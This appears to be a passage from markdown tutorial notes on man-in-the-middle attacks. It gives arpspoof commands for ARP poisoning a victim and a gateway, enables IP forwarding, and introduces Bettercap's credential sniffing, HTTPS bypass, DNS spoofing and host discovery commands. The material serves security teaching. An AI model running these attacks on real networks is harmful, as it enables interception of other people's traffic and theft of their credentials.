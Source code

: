 Use
```bash
arpspoof -i [interface] -t [clientIP] [gatewayIP]
arpspoof -i [interface] -t [gatewayIP] [clientIP]
```
Like
```bash
arpspoof -i wlan0 -t 192.168.0.171 192.168.0.1
arpspoof -i wlan0 -t 192.168.0.1 192.168.0.171
```
Thus the man in the middle attack is possible. If you check, then you will find that the mac address of the router into your victim machine is changed and the mac address showing is the hacker's mac address. But you can't send request from the hacker machine for linux securite reason. For that, have to enable port forwarding this by executing the command
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Bettercap
- Framework to run network attacks
- Can be used to:
	- ARP Spoof targets (redirect the flow of packets)
	- Sniff data (urls, username passwords)
	- Bypass HTTPS
	- Redirect domain requests (DNS Spoofing)
	- Inject code in loaded pages
	- And more!
Use
```bash
bettercap -iface [interface]
```
And you will be entered inside the bettercap tool command. If you type "help", you can notice that only one module named "events.stream" is running.

To get help, you can execute
```bash
help [moduleName]
```
like
```bash
help net.probe
```
### net.probe & net.recon:
To start the net.probe, execute
```bash
net.probe on
```
It will automatically search the connected clients to your network provider with which you are connected now. This execution automatically starts the net.recon. If we again execute this command, we can see all the connected clients in better way
```bash
net.show
```
